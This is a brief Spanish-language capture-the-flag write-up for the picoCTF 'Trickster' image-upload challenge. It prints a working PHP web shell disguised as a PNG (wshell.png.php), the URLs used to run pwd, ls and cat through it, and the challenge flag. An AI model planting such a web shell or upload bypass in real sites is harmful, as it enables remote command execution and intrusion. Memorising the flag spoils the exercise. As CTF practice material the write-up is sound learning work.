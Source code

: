 
## Trickster
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:60892/)!


Hints:
(None)



## Solución:



//Crear el archivo
wshell.php y después cambiar a wshell.png.php
PNG
<?php
if(isset($_GET['cmd'])){
     echo "<pre>";
     system($_GET['cmd']);
     echo "<pre>";
}
?>

//Con este ver en que carpeta estamos
http://atlas.picoctf.net:60892/uploads/wshell.png.php?cmd=pwd

//Entramos aquí , y ver en que carpeta estamos y regresarnos con ls ..
http://atlas.picoctf.net:60892/uploads/wshell.png.php?cmd=ls%20..
PNG
GNTDOMBWGIZDE.txt
index.php
instructions.txt
robots.txt
uploads



Parte:
http://atlas.picoctf.net:60892/uploads/wshell.png.php?cmd=cat%20../GNTDOMBWGIZDE.txt
Entrar ahí y copiar el nombre del archivo, pero ponerle cat primero- cat ../GNTDOMBWGIZDE.txt
GNTDOMBWGIZDE.txt



Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
PNG

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222} */

